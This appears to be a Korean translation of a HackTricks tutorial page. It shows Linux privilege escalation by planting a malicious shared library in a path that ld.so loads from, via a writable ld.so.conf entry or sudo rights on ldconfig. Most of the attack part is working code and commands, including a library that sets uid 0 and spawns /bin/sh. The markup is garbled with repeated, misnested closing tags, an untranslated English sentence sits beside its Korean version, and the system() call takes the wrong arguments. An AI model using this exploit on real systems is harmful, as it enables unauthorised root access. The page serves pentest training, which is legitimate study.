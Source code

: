 # ld.so privesc exploit example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

## 환경 준비

다음 섹션에서는 환경을 준비하는 데 사용할 파일의 코드를 찾을 수 있습니다.

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **해당** 파일들을 같은 폴더에 **생성**합니다.
2. **라이브러리**를 **컴파일**합니다: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. `libcustom.so`를 `/usr/lib`로 **복사**합니다: `sudo cp libcustom.so /usr/lib` (루트 권한)
4. **실행 파일**을 **컴파일**합니다: `gcc sharedvuln.c -o sharedvuln -lcustom`

### 환경 확인

_libcustom.so_가 _/usr/lib_에서 **로드**되고 있으며, 이진 파일을 **실행**할 수 있는지 확인합니다.
```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```
## Exploit

이 시나리오에서는 **누군가가 _/etc/ld.so.conf/_ 파일 안에 취약한 항목을 생성했다고 가정합니다**:
```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```
취약한 폴더는 _/home/ubuntu/lib_ (여기에서 쓰기 권한이 있습니다).\
**다음 코드를 다운로드하고 컴파일** 하십시오:
```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```
이제 **잘못 구성된** 경로 안에 악성 libcustom 라이브러리를 **생성했으므로**, **재부팅**을 기다리거나 루트 사용자가 **`ldconfig`**를 실행하기를 기다려야 합니다 (_이 이진 파일을 **sudo**로 실행할 수 있거나 **suid 비트**가 설정되어 있다면 직접 실행할 수 있습니다_).

이 일이 발생한 후 **다시 확인**하여 `sharevuln` 실행 파일이 `libcustom.so` 라이브러리를 어디에서 로드하는지 확인하십시오:
```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```
As you can see it's **loading it from `/home/ubuntu/lib`** and if any user executes it, a shell will be executed:  
당신이 볼 수 있듯이 **`/home/ubuntu/lib`에서 로드되고** 어떤 사용자가 이를 실행하면 셸이 실행됩니다:
```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```
{% hint style="info" %}
이 예제에서는 권한 상승을 하지 않았지만, 실행되는 명령을 수정하고 **루트 또는 다른 권한이 있는 사용자가 취약한 바이너리를 실행하기를 기다리면** 권한을 상승시킬 수 있습니다.
{% endhint %}

### 다른 잘못된 구성 - 동일한 취약점

이전 예제에서는 관리자가 **`/etc/ld.so.conf.d/` 내의 구성 파일 안에 비권한 폴더를 설정한** 잘못된 구성을 가장했습니다.\
하지만 동일한 취약점을 유발할 수 있는 다른 잘못된 구성도 있습니다. `/etc/ld.so.conf.d` 내의 일부 **구성 파일**에 **쓰기 권한**이 있거나 `/etc/ld.so.conf.d` 폴더 또는 `/etc/ld.so.conf` 파일에 쓰기 권한이 있으면 동일한 취약점을 구성하고 이를 악용할 수 있습니다.

## Exploit 2

**`ldconfig`에 대한 sudo 권한이 있다고 가정해 보겠습니다.**\
`ldconfig`에 **구성 파일을 어디서 로드할지** 지시할 수 있으므로, 이를 이용해 `ldconfig`가 임의의 폴더를 로드하도록 할 수 있습니다.\
따라서 "/tmp"를 로드하는 데 필요한 파일과 폴더를 생성해 보겠습니다:
```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```
이제 **이전 익스플로잇**에서 언급한 대로, **`/tmp` 안에 악성 라이브러리를 생성합니다**.\
마지막으로, 경로를 로드하고 바이너리가 라이브러리를 어디에서 로드하는지 확인해 봅시다:
```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```
**보시다시피, `ldconfig`에 대한 sudo 권한이 있으면 동일한 취약점을 악용할 수 있습니다.**

{% hint style="info" %}
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
